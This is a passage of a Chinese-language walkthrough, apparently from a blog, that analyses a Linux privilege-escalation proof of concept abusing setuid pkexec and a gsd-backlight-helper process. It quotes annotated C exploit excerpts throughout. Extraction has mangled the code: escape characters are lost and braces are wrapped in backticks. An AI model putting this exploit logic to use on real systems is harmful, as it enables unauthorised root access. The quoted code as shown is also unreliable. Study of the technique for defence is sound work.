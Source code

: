 ### **task A fork 出 task B**

可以看到这里 clone 出了一个 新的进程 ，也就是前面我们提到的 task B

```
fprintf(stderr,"00 task A fork task B n" );
    pid_t midpid =  clone(middle_main,middle_stack+sizeof(middle_stack),
            CLONE_VM|CLONE_VFORK|SIGCHLD,NULL);
```

接着 task A 进入了一个 while 循环，它检查 task B 的 `/proc/xxx/comm` 文件，这里保存着 task B 运行的命令名, 也就是我们 `ps` 的时候看到的名称，我们叫它进程名吧，task A等待直到task B 的 进程名 变成 我们定义的 pkexec 的 helper 时才会退出循环

```
static const char *helper_path="/usr/lib/gnome-settings-daemon/gsd-backlight-helper";
...
    while(1)`{`
        //  等待 直到 task B 运行 pkexec 的时候
        int fd = open(tprintf("/proc/%d/comm", midpid), O_RDONLY);   
        char buf[16];                                                
        int buflen = read(fd, buf, sizeof(buf)-1);             
        buf[buflen] = '';                                          
        *strchrnul(buf, 'n') = '';                                
        if (strncmp(buf, basename(helper_path), 15) == 0)            
             break;                                                     
        usleep(100000);                                              
    `}`

```

### **task B fork task C**

我们接下来查看 task B 的代码逻辑， task B 保存了 `/proc/self/exe` 的 fd， 也就是当前 poc 对应的 exe 文件，然后 fork 出了一个进程( task C）

```
static int middle_main(void *dummy)`{`
    // task B
    pid_t middle = getpid();
    // 用于后续替换内存镜像
    self_fd = open("/proc/self/exe",O_RDONLY);
    fprintf(stderr,"01 task B fork task Cn");
    // fork 出进程 C
    pid_t child = fork();
    if(child==0)`{`
```

### **task B 执行 pkexec**

```
fprintf(stderr,"02 task B execl suid pkexecn");
   // 用于后续替换内存映像
    dup2(self_fd,0);
    // stdout &lt; block pipe 下一次向 stdout 写 东西的时候会 block 住
    dup2(block_pipe[1],1);

    /*
     * setreuid(0, 0)      
     * setregid(1001, 1001)
     * setreuid(1001, 1001)
     * write something
     * */
    struct passwd *pw = getpwuid(getuid());
    execl("/usr/bin/pkexec","pkexec","--user",pw-&gt;pw_name,helper_path,"--help",NULL);
    err(1,"execl pkexecn");
```
